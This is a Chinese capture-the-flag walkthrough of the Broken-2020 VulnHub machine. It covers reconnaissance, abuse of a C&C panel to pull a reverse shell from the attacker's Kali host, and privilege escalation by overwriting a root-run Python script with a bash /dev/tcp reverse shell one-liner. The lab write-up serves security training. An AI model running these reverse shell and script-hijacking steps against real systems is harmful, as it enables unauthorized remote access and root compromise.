 ## Broken-2020 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| Broken-2020   | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1](../src/vulnhub/broken_2020/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache** 服务器

![2](../src/vulnhub/broken_2020/2.png)

简单查看源码后无异常，但使用扫描工具发现其他路径，访问路径 `http://192.168.1.108/cms/` 得到 **flag1**

![3](../src/vulnhub/broken_2020/3.png)

继续访问路径 `http://192.168.1.108/cms/cc` 发现存在 C&C server 后台

![4](../src/vulnhub/broken_2020/4.png)

本以为可能存在命令注入，不过测试后发现可以建立远程连接，并且会请求某一名称脚本

![5](../src/vulnhub/broken_2020/5.png)

接下来的步骤很明显，只要在 Kali 当前目录上新建该脚本名称，并写入反向 shell 脚本。此外开启 HTTP Server，并在虚拟机上请求即可 getshell

### Getshell

![6](../src/vulnhub/broken_2020/6.png)

如上图所示，该脚本会建立 bash shell 连接，反向连接 Kali **4455** 端口。在 `/home/alice` 路径下得到 **flag2**

![7](../src/vulnhub/broken_2020/7.png) 

此外根据提示知道 *root* 用户会执行脚本清理 Apache 日志，至于执行的哪个脚本，想必就是 `/home/alice/script/log.py`，当然可以通过 **pspy64** 来确认

![8](../src/vulnhub/broken_2020/8.png)

### 提权

修改 `log.py` 里的内容，建立 shell

```shell
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/192.168.1.112/7788 0>&1'\")" > log.py
chmod +x log.py
```

Kali 上监听 **7788** 端口，在 `/home/alice/backup/` 路径下得到 **flag3**

![9](../src/vulnhub/broken_2020/9.png)

看来只要将路径名写入 `path.txt` 文件里，`root` 账户就会将备份该路径的内容。结果显而易见，最后的 flag 就在 `/root` 路径下，因此我们将该路径写入 `path.txt` 文件里就会得到 `/root` 路径下的内容

![10](../src/vulnhub/broken_2020/10.png)

